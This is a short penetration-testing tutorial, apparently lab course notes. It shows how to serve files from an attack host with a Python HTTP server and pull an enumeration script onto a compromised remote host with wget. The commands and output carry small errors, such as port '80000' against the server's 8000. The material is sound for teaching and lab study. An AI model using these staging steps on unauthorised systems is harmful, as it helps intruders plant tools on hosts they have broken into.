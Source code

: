 # Transferring Files
During any penetration test exercise, it is likely that we will need to transfer files to a remote server, such as enumeration scripts or exploits, or transfer data back to our attack host.

While tools like Metasploit with a Meterpreter shell allow us to use the **Upload** command to upload a file, we need to learn methods to transfer files with a standard reverse shell.

## Using wget
There are many methods to accomplish this. One method is running a Python HTTP server on our machine and then using wget or cURL to download the file on the remote host.

First we go into the directory that contains the file we need to transfer and run a Python HTTP server in it.

```
kieferhax@htb[/htb]$ cd /tmp
kieferhax@htb[/htb]$ python3 -m http.server 8000   

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)
```

Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:

```
user@remotehost$ wget http://10.10.14.1:80000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[=======================>] 144.86K --.-KB/s in 0.02s

2021-02-08 18:09:19 (8.16 MD/s) - 'linenum.sh' saved [14337/14337]
```